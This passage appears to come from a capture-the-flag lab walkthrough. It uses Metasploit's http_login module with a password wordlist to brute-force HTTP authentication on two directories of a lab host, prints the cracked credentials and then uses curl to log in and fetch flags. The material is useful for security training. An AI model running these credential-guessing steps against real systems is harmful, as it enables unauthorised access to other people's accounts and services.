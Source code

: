 ```bash
use auxiliary/scanner/http/http_login 
set RHOSTS 192.199.232.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /dir/
exploit
```

```bash
[*] Attempting to login to http://192.199.232.3:80/dir/
[+] 192.199.232.3:80 - Success: 'bob:qwerty'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *dir* directory credentials are `bob:qwerty`

```bash
curl -u bob:qwerty http://192.199.232.3/dir/
```

<details><summary>Reveal Flag - dir directory flag is: 🚩</summary></details>

```bash
msfconsole
```

```bash
use auxiliary/scanner/http/http_login 
set RHOSTS 192.199.232.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit
```

```bash
[*] Attempting to login to http://192.199.232.3:80/poc/
[+] 192.199.232.3:80 - Success: 'alice:password1'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 📌 *poc* directory credentials are `alice:password1`

```bash
curl --digest -u alice:password1 http://192.199.232.3/poc/
```


<details><summary>Reveal Flag - poc directory flag is: 🚩</summary></details>

------

